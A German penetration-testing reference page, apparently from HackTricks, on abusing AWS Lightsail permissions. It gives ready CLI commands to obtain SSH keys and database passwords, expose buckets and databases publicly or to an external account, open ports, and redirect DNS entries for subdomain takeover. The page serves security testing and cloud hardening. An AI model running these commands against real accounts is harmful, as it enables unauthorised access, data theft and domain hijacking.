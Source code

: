 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Für weitere Informationen über Lightsail siehe:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Es ist wichtig zu beachten, dass Lightsail **keine IAM-Rollen des Benutzers** verwendet, sondern die eines von AWS verwalteten Kontos, sodass Sie diesen Dienst nicht für Privilegieneskalation missbrauchen können. Allerdings könnten **sensible Daten** wie Code, API-Schlüssel und Datenbankinformationen in diesem Dienst gefunden werden.

### `lightsail:DownloadDefaultKeyPair`

Diese Berechtigung ermöglicht es Ihnen, die SSH-Schlüssel zum Zugriff auf die Instanzen zu erhalten:
```
aws lightsail download-default-key-pair
```
**Potenzielle Auswirkungen:** Sensible Informationen in den Instanzen finden.

### `lightsail:GetInstanceAccessDetails`

Diese Berechtigung ermöglicht es Ihnen, SSH-Schlüssel zu generieren, um auf die Instanzen zuzugreifen:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potenzielle Auswirkungen:** Sensible Informationen in den Instanzen finden.

### `lightsail:CreateBucketAccessKey`

Diese Berechtigung ermöglicht es Ihnen, einen Schlüssel zum Zugriff auf den Bucket zu erhalten:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potenzielle Auswirkungen:** Sensible Informationen im Bucket finden.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Diese Berechtigung ermöglicht es Ihnen, die Anmeldeinformationen zum Zugriff auf die Datenbank zu erhalten:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potenzielle Auswirkungen:** Sensible Informationen in der Datenbank finden.

### `lightsail:UpdateRelationalDatabase`

Diese Berechtigung ermöglicht es Ihnen, das Passwort zum Zugriff auf die Datenbank zu ändern:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Wenn die Datenbank nicht öffentlich ist, könnten Sie sie auch mit diesen Berechtigungen öffentlich machen mit
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Potenzielle Auswirkungen:** Sensible Informationen in der Datenbank finden.

### `lightsail:OpenInstancePublicPorts`

Diese Berechtigung erlaubt das Öffnen von Ports zum Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potenzielle Auswirkungen:** Zugriff auf sensible Ports.

### `lightsail:PutInstancePublicPorts`

Diese Berechtigung ermöglicht das Öffnen von Ports zum Internet. Beachten Sie, dass der Aufruf alle nicht angegebenen geöffneten Ports schließt.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potenzielle Auswirkungen:** Zugriff auf sensible Ports.

### `lightsail:SetResourceAccessForBucket`

Diese Berechtigung ermöglicht es, einer Instanz den Zugriff auf einen Bucket ohne zusätzliche Anmeldeinformationen zu gewähren.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Potenzielle Auswirkungen:** Potenzieller neuer Zugriff auf Buckets mit sensiblen Informationen.

### `lightsail:UpdateBucket`

Mit dieser Berechtigung könnte ein Angreifer seinem eigenen AWS-Konto Lesezugriff auf Buckets gewähren oder die Buckets sogar für alle öffentlich machen:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potenzielle Auswirkungen:** Potenzieller neuer Zugriff auf Buckets mit sensiblen Informationen.

### `lightsail:UpdateContainerService`

Mit diesen Berechtigungen könnte ein Angreifer Zugriff auf private ECRs vom Containerdienst gewähren.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potenzielle Auswirkungen:** Sensible Informationen aus privatem ECR abrufen

### `lightsail:CreateDomainEntry`

Ein Angreifer mit dieser Berechtigung könnte eine Subdomain erstellen und sie auf seine eigene IP-Adresse verweisen (Subdomain-Übernahme) oder einen SPF-Eintrag erstellen, der es ihm ermöglicht, E-Mails von der Domain zu fälschen, oder sogar die Hauptdomain auf seine eigene IP-Adresse setzen.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potenzielle Auswirkungen:** Übernahme einer Domain

### `lightsail:UpdateDomainEntry`

Ein Angreifer mit dieser Berechtigung könnte ein Subdomain erstellen und es auf seine eigene IP-Adresse verweisen (Subdomain-Übernahme), oder einen SPF-Eintrag erstellen, der es ihm ermöglicht, E-Mails von der Domain zu fälschen, oder sogar die Hauptdomain auf seine eigene IP-Adresse setzen.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potenzielle Auswirkungen:** Übernahme einer Domain

{{#include ../../../banners/hacktricks-training.md}}
